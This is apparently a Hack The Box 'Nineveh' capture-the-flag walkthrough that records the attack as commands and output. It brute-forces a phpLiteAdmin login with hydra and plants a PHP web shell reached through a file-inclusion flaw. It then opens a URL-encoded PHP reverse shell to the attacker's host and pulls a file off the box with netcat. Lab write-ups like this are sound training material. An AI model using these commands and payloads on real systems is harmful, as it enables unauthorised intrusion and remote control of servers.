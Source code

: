   [root:/git/htb/nineveh]# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -vV -f https-post-form '/db/index.php:password=^PASS^&remember=yes&logn=Log+In&proc_login=true:Incorrect password'
    --- snip ---
    [ATTEMPT] target 10.10.10.43 - login "admin" - pass "harry" - 1404 of 14344399 [child 7] (0/0)
    [443][http-post-form] host: 10.10.10.43   login: admin   password: password123

  Another set of working creds! admin:password123 on https://10.10.10.43/db/index.php


5. Search for known phpLiteAdmin v1.9 vulns.

[root:...ninevehForAll.png.extracted]# searchsploit phpliteadmin                                                                (master✱)
  --------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                           |  Path
  --------------------------------------------------------------------------------------------------------- ---------------------------------
  PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                           | php/webapps/24044.txt


  a) Create a new database named 'ninevehNotes.php'
  b) Create a new table, Name: "test", Number of Fields: "1"
  c) In field write: '<?php echo system($_REQUEST["cmd"]);?>', and change Type from 'INTEGER' to 'TEXT'
  d) If everything is correct, you should now have RCE through the LFI: http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=ls


6. Through the RCE, setup a php reverse shell - remember you need to url encode it first.

  URL: http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.10%22%2C4488%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
  [root:/git/htb/nineveh]# nc -lvnp 4488                                                                                           (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.43] 59940
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
      www-data


7. Enumerate the box and we find a file with a curious filename 'ninevehdestruction.jpg', located in /var/www/html

Transfer the .jpg to local Kali box to investigate with Binwalk.
  [root:/git/htb/nineveh]# nc -lp 4400 > ninevehdestruction.jpg
  www-data@nineveh:/var/www/html$ nc -w 3 10.10.14.10 4400 < ninevehdestruction.jpg

  [root:/git/htb/nineveh]# binwalk ninevehdestruction.jpg                                                                         (master✱)

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             JPEG image data, EXIF standard
    12            0xC             TIFF image data, little-endian offset of first image directory: 8

